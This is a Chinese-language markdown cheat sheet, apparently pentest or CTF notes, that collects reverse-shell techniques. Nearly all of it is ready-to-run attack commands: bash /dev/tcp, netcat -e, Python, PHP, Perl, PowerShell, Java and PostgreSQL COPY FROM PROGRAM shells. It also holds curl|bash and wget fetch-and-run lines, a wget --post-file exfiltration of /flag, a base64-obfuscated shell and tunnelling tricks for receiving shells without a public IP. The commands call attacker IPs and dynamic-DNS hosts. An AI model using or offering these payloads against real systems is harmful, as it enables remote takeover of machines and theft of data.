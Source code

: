 [反弹Shell大全与原理](https://mp.weixin.qq.com/s/ClqEAqpPxlscNJphSBfhKA)
[Ladon | 22种反弹Shell方法 openssl\\java\\py\\php\\perl\\lua\\curl\\socat ncat ruby](https://mp.weixin.qq.com/s/oPFxDxaUb9eGm-zrJzP55g)

- TheFatRat 创建反弹shell

## 反弹Shell
https://www.cnblogs.com/xiaozi/p/13493010.html

如果是php_shell, `?c=system('wget http://xxx')` , `wget xxx` 这里要进行url编码

windows上传 `certutil -urlcache -split -f http://11.1.63.37/nc.exe nc.exe`

nc参数
```shell
-l              listen mode, for inbound connects
-L              listen harder, re-listen on socket close
-v              verbose [use twice to be more verbose]
```

__bash连接__
```shell
# 攻击机器
nc -lvp 7777

# 被攻击机 , 不要在zsh 
/bin/bash -i >& /dev/tcp/攻击机ip/7777 0>&1 
curl http://攻击机ip:2126/sa.sh|bash

## curl: shell.txt,内容为bash -i >& /dev/tcp/攻击机ip/7777 0>&1
curl 192.168.1.20|bash
nc 127.0.0.1 7777 -e /bin/bash
nc 127.0.0.1 7777 -e cmd.exe                       // Windows
nc 127.0.0.1 7777 -e c:\windows\system32\cmd.exe   // Windows

## nc连接无 -e 参数
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc 1.1.1.1 7777 1>/tmp/backpipe

nc -e /bin/sh 192.168.50.161 4444
## python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.32.1",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
## php
php -r '$sock=fsockopen("192.168.32.1",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
## perl - Linux
perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
## perl - Windows
perl -e 'use Socket;$i="47.101.57.72";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## telnet , 攻击机监听2个端口 nc -lvvp 4445, nc -lvvp 4444
telnet 192.168.50.161 4444 | /bin/bash | telnet 192.168.50.161 4445
```


__powershell__
```bat
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.183.1:8080/powercat.ps1');powercat -c 192.168.183.1 -p 4444 -e cmd
```

__利用被攻击机ip__
其他都是需要攻击机ip，这个则相反。我的理解是需要攻击机ip的相当于把shell弹给攻击机(所以攻击机ip和bash在一行代码)，而这个相当于在本地端口开个shell,攻击机访问端口来拿shell
```shell
nc 1.1.1.1 7777

# 被攻击机输入
nc -lvp 7777 -e /bin/bash
```

python 方式2
```py
#!/usr/bin/python
#-*- coding: utf-8 -*-
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.20.151",7777)) #更改localhost为自己的外网ip,端口任意
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

客户机
```
curl 192.168.1.20/shell.py|python
```

__wget__ 反弹shell
```
靶机:
wget --post-file /flag http://ip:port/
wget http://wgf4242.51vip.biz/shell.txt -O /tmp/x.php && php /tmp/x.php 
wget 192.168.20.130/shell.txt -O /tmp/x.php && php /tmp/x.php
http://xxx/wget?argv=1&argv=--post-file&argv=/flag&argv=http://wgf4242.51vip.biz:34578
vps攻击机: nc -lvp 2333
```

shell.txt内容
```php
<?php
$sock=fsockopen("1.1.1.1",7777);//localhost为自己的外网ip，端口任意
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
python -m http.server --bind 0.0.0.0 8080

__java__ 反弹shell
[Runtime执行linux命令时管道符不生效](https://mp.weixin.qq.com/s/EhatzI7QVmh_RQZYOWNBYg)

```java
public class Revs {
public static void main(String[] args) throws Exception {
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

Runtime执行linux命令时管道符不生效, 用base64编码内容
```sh
#bash
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg}|{base64,-d}|{bash,-i}
#python
python -c exec('L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNC4yLjMuNC8yMjIzIDA+JjEg'.decode('base64'))
```

__postgres__ 反弹shell

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM '/bin/bash -i >& /dev/tcp/11.1.xx.xx/1234 0>&1';
-- COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```


### 无公网IP反弹shell

https://www.bilibili.com/video/BV1pq4y1U7CR

方法1:
花生壳开 127.0.0.1 54321端口 得到tcp://397j302b56.zicp.vip:37932
本机nc -lvvnp 54321
远程 /?c=system("nc wgf4242.51vip.biz 39672 -e /bin/sh");

方法2:
花生壳开虚拟机地址 192.168.0.102 54321 得到tcp://397j302b56.zicp.vip:37932
本机A IP是192.168.0.100, 电脑B 192.168.0.100, 虚拟机C属于电脑B是192.168.247.128
如何让A与C互通
虚拟机C nc -lvvnp 54321
花生壳PC$ netsh interface portproxy add v4tov4 listenaddress=192.168.0.102 listenport=54321 connectaddress=192.168.247.128 connectport=54321

bash -i >& /dev/tcp/397j302b56.zicp.vip/22599 0>&1
